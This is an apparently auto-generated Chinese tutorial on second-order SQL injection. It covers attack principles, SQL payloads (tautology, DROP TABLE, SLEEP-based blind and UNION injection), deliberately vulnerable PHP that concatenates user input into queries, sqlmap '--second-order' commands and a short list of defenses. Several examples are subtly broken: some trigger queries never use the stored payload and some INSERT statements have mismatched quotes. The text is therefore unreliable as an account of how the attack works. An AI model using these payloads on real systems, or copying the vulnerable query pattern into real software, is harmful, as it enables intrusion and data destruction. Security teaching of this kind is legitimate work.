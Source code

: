 # 二阶SQL注入攻击的攻击技术

## 1. 技术原理解析

### 1.1 什么是二阶SQL注入攻击？

二阶SQL注入攻击（Second-Order SQL Injection）是一种特殊类型的SQL注入攻击，与传统的即时SQL注入不同，二阶SQL注入的攻击载荷不会立即执行，而是存储在数据库中，随后在另一个查询中被触发执行。这种攻击通常发生在应用程序将用户输入的数据存储到数据库，然后在后续的操作中不加处理地使用这些数据时。

### 1.2 底层实现机制

二阶SQL注入攻击的实现机制可以分为以下几个步骤：

1. **数据存储**：攻击者通过输入恶意SQL代码，这些代码被应用程序存储到数据库中。由于应用程序在存储时可能进行了某种形式的转义或过滤，因此这些代码不会立即执行。

2. **数据检索与执行**：在后续的操作中，应用程序从数据库中检索这些数据，并将其直接拼接到SQL查询中。由于数据在存储时未被正确处理，恶意代码在此时被执行，导致SQL注入攻击成功。

### 1.3 与传统SQL注入的区别

- **即时性**：传统SQL注入攻击的恶意代码在输入时立即执行，而二阶SQL注入的恶意代码在存储后才会被执行。
- **隐蔽性**：二阶SQL注入攻击更加隐蔽，因为攻击载荷在存储时可能通过了初步的安全检查，只有在特定条件下才会触发。

## 2. 常见攻击手法和利用方式

### 2.1 存储型攻击

攻击者通过输入恶意SQL代码，这些代码被存储到数据库中。例如，攻击者在注册表单中输入恶意用户名，该用户名被存储到用户表中。在后续的登录或用户信息查询操作中，恶意代码被触发执行。

**示例**：
```sql
-- 攻击者输入的用户名
username: ' OR '1'='1
-- 存储到数据库
INSERT INTO users (username) VALUES (''' OR ''1''=''1');
-- 后续查询
SELECT * FROM users WHERE username = ''' OR ''1''=''1';
```

### 2.2 触发型攻击

攻击者通过输入恶意数据，这些数据在特定条件下被触发执行。例如，攻击者在评论框中输入恶意代码，这些代码被存储到评论表中。在管理员查看评论时，恶意代码被触发执行。

**示例**：
```sql
-- 攻击者输入的评论
comment: '; DROP TABLE comments; --
-- 存储到数据库
INSERT INTO comments (comment) VALUES (''; DROP TABLE comments; --');
-- 管理员查看评论
SELECT * FROM comments WHERE id = 1;
```

### 2.3 高级利用技巧

#### 2.3.1 盲注攻击

在二阶SQL注入中，攻击者可以利用盲注技术，通过观察应用程序的响应来判断注入是否成功。例如，攻击者可以通过输入不同的恶意代码，观察应用程序的响应时间或返回结果，来判断数据库的结构或内容。

**示例**：
```sql
-- 攻击者输入的用户名
username: ' OR SLEEP(5) --
-- 存储到数据库
INSERT INTO users (username) VALUES ('' OR SLEEP(5) --');
-- 后续查询
SELECT * FROM users WHERE username = '' OR SLEEP(5) --';
```

#### 2.3.2 联合查询攻击

攻击者可以通过联合查询技术，将恶意代码与正常查询结合，从而获取更多的数据库信息。例如，攻击者可以通过输入恶意代码，将用户表与其他表进行联合查询，从而获取敏感信息。

**示例**：
```sql
-- 攻击者输入的用户名
username: ' UNION SELECT NULL, NULL, NULL FROM users --
-- 存储到数据库
INSERT INTO users (username) VALUES ('' UNION SELECT NULL, NULL, NULL FROM users --');
-- 后续查询
SELECT * FROM users WHERE username = '' UNION SELECT NULL, NULL, NULL FROM users --';
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

为了模拟二阶SQL注入攻击，我们需要搭建一个简单的Web应用程序环境。以下是搭建步骤：

1. **安装Web服务器**：可以使用Apache或Nginx作为Web服务器。
2. **安装数据库**：可以使用MySQL或PostgreSQL作为数据库。
3. **创建数据库和表**：
   ```sql
   CREATE DATABASE testdb;
   USE testdb;
   CREATE TABLE users (
       id INT AUTO_INCREMENT PRIMARY KEY,
       username VARCHAR(255) NOT NULL
   );
   CREATE TABLE comments (
       id INT AUTO_INCREMENT PRIMARY KEY,
       comment TEXT NOT NULL
   );
   ```
4. **编写Web应用程序**：使用PHP或其他编程语言编写一个简单的Web应用程序，包含用户注册、登录、评论等功能。

### 3.2 攻击步骤

1. **输入恶意数据**：在用户注册或评论功能中，输入恶意SQL代码。
2. **存储数据**：将恶意数据存储到数据库中。
3. **触发攻击**：在后续的操作中，触发恶意代码的执行。
4. **观察结果**：观察应用程序的响应，判断攻击是否成功。

**示例**：
```php
// 用户注册功能
$username = $_POST['username'];
$sql = "INSERT INTO users (username) VALUES ('$username')";
// 执行SQL语句

// 用户登录功能
$username = $_POST['username'];
$sql = "SELECT * FROM users WHERE username = '$username'";
// 执行SQL语句
```

## 4. 实际命令、代码或工具使用说明

### 4.1 使用SQLMap进行二阶SQL注入攻击

SQLMap是一个自动化的SQL注入工具，可以用于检测和利用二阶SQL注入漏洞。

**步骤**：
1. **安装SQLMap**：
   ```bash
   git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
   cd sqlmap-dev
   ```
2. **检测二阶SQL注入漏洞**：
   ```bash
   python sqlmap.py -u "http://example.com/login" --data "username=test&password=test" --second-order "http://example.com/profile"
   ```
3. **利用漏洞**：
   ```bash
   python sqlmap.py -u "http://example.com/login" --data "username=test&password=test" --second-order "http://example.com/profile" --dbs
   ```

### 4.2 使用Burp Suite进行二阶SQL注入攻击

Burp Suite是一个常用的Web应用程序安全测试工具，可以用于手动检测和利用二阶SQL注入漏洞。

**步骤**：
1. **配置代理**：将浏览器配置为使用Burp Suite作为代理。
2. **捕获请求**：在Burp Suite中捕获用户注册或评论功能的请求。
3. **修改请求**：在请求中插入恶意SQL代码。
4. **发送请求**：将修改后的请求发送到服务器。
5. **观察响应**：观察服务器的响应，判断攻击是否成功。

## 5. 防御措施

1. **输入验证**：对所有用户输入进行严格的验证，确保输入数据符合预期格式。
2. **参数化查询**：使用参数化查询或预编译语句，避免将用户输入直接拼接到SQL查询中。
3. **输出编码**：在将数据输出到页面时，进行适当的编码，防止XSS攻击。
4. **最小权限原则**：数据库用户应具有最小的必要权限，避免攻击者利用SQL注入获取敏感信息。

## 6. 总结

二阶SQL注入攻击是一种隐蔽且危险的攻击方式，攻击者通过输入恶意代码并将其存储到数据库中，在后续的操作中触发执行。通过深入理解其攻击原理和利用方式，我们可以更好地防御这种攻击。在实际应用中，应结合多种防御措施，确保Web应用程序的安全性。

---

*文档生成时间: 2025-03-11 14:02:28*
